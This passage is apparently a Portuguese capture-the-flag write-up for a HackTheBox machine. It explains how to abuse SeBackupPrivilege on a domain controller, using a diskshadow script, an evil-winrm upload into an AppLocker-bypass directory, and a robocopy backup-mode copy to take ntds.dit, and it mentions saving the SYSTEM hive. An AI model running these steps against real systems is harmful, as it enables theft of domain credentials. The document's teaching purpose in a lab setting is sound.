 Logo de entrada, vemos com um whoami qual é o caminho a seguir! Este usuário é membro do grupo SeBackupPrivilege. Pelo nome é um pouco normal. Usuários deste grupo tem privilégios para copiar programas que estão em memória RAM, e tem possibilidade de fazer backups de todo o sistema. Não pode abrir tudo "à Lagardère", mas dá para bypassar isto tudo. Já que iremos ter acesso a todos os ficheiros do sistema, podemos escolher qual queremos. Poderíamos em primeira instância quer extrair o SAM e SYSTEM, mas nesta máquina, e SAM nos daria exactamente igual ao ficheiro lsass que já vimos antes, pelo que a hash do Administrator local não funcionará (nem sei bem o motivo...). Mas há um ficheiro nos Domain Controller que contem a base de dados de todos os usuários de domínio e seus hashes. Esse ficheiro é chamado de "**_ntds.dit_**". E é este o nosso alvo. Para se fazer, basta copiar o referido ficheiro, que se encontra em C:\Windows\NTDS\ntds.dit. Problemas: - O ficheiro está em uso. (não se pode fazer copia do mesmo se está em uso) - Não tenho privilégios diretos. (tenho de usar programas que me fazem ter temporáriamente privilégios Administrador)

Existe um programa chamado de robocopy, que nos permite resolver o segundo ponto, visto que tem um parametro (/b) para fazer a cópia em backup mode (Passando a ter o privilégio do grupo SeBackupPrivilege)

O primeiro ponto é mais tricky... Eu não posso copiar um arquivo em uso. Mas posso criar uma unidade que esteja ligada ao meu disco local C:\\. O ficheiro em uso será sempre o do disco C:\\, e o mesmo ficheiro na outra unidade não estará a ser usado (GG Windows xD).

Para se fazer:

-   Criar um ficheiro com o nome privesc.txt (por exemplo)

```txt
set context persistent nowriters
add volume c: alias privesc
create
expose %privesc% z:
```

-   Ajustar compatibilidade do ficheiro para windows

```powershell
unix2dos privesc.txt
```

-   Transferir privesc.txt para o windows. Via evil-winrm, é facílimo. Privilegie um directório sem nenhum tipo de restrições de escrita (AppLockerBypass)

```powershell
cd C:\Windows\System32\spool\drivers\color
upload /home/javali/CaptureTheFlag/HackTheBox/contents/privesc.txt
```

-   Criar uma cópia shadow da unidade C:\ com as configurações do ficheiro privesc.txt

```powershell
diskshadow.exe /s .\privesc.txt
```

-   Copiar o shadow de ntds.dit para um local acessível no C:\

```powershell
robocopy /b Z:\Windows\NTDS C:\Windows\System32\spool\drivers\color ntds.dit
```

Agora temos a tal base de dados de todo o Domian Controller. Para poder ser lido, ainda faltam umas chaves de criptografia que se encontram em HKLM\SYSTEM. Basta gravar a propria memória RAM deste ficheiro em uso para o mesmo local da cópia do ntds.dit (para depois recuperar ambos os ficherio para a nossa máquina, com o commando download do evil-winrm)
